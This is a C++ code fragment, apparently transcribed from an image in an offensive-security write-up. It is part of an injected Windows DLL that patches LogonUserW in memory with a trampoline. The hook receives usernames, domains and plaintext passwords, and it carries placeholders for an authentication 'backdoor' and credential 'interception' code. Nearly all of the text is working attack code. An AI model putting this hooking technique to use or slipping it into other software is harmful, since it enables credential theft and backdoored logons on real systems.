 ```cpp
    outfile.close();

    void* LogonUserWAddr = GetProcAddress(LoadLibraryA("advapi32.dll"), "LogonUserW");
    if (LogonUserWAddr == NULL) {
        // Should never happen, but just incase
        return;
    }

    // Update page protection so we can inject our trampoline
    VirtualProtect(LogonUserWAddr, 0x1000, PAGE_EXECUTE_READWRITE, &oldProtect);

    // Add our JMP addr for our hook
    *(void**)(trampoline + 2) = &LogonUserWHook;

    // Copy over our trampoline
    memcpy(LogonUserWAddr, trampoline, sizeof(trampoline));

    // Restore previous page protection so Dom doesn't shout
    VirtualProtect(LogonUserWAddr, 0x1000, oldProtect, &oldProtect);
}

// The hook we trampoline into from the beginning of LogonUserW
// Will invoke LogonUserExW when complete, or return a status ourselves
BOOL LogonUserWHook(LPCWSTR username, LPCWSTR domain, LPCWSTR password, DWORD logonType, DWORD logonProvider, PHANDLE hToken) {
    PSID logonSID;
    void* profileBuffer = (void*)0;
    DWORD profileLength;
    QUOTA_LIMITS quota;
    bool ret;

    // Refer to "Authentication requests interception" / "Authentication Agent backdoor" sections below

    // <INJECTED_CODE_BACKDOOR>

    // Forward request to LogonUserExW and return result
    ret = LogonUserExW(username, domain, password, logonType, logonProvider, hToken, &logonSID, &profileBuffer, &profileLength, &quota);

    // <INJECTED_CODE_INTERCEPTION>

    return ret;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        Start();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
